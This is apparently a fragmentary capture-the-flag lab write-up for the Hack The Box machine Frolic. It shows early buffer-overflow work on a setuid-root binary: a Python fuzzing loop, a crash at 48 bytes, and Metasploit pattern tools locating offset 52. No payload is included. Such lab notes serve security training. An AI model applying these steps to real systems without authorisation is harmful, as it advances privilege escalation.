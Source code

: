 
www-data@frolic:/home/ayush/.binary$ ls -alh .
ls -alh .
total 16K
drwxrwxr-x 2 ayush ayush 4.0K Sep 25  2018 .
drwxr-xr-x 3 ayush ayush 4.0K Sep 25  2018 ..
-rwsr-xr-x 1 root  root  7.4K Sep 25  2018 rop



![](2021-02-19-14-47-54.png)


![](2021-02-19-14-50-15.png)

import os
for i in range(1, 1000):
    os.system("./rop2 "+ i*"A")

kali@kali:~/htb/boxes/frolic/10.10.10.111$ ./rop2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] Message sent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

kali@kali:~/htb/boxes/frolic/10.10.10.111$ ./rop2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault




os.system("edb --run ./rop2 "+ offset*"A" + 1000*"B")

![](2021-02-19-15-04-55.png)

 msf-pattern_create -l 20000 | clip


msf-pattern_offset -l 2000 -q 0x62413762
[*] Exact match at offset 52
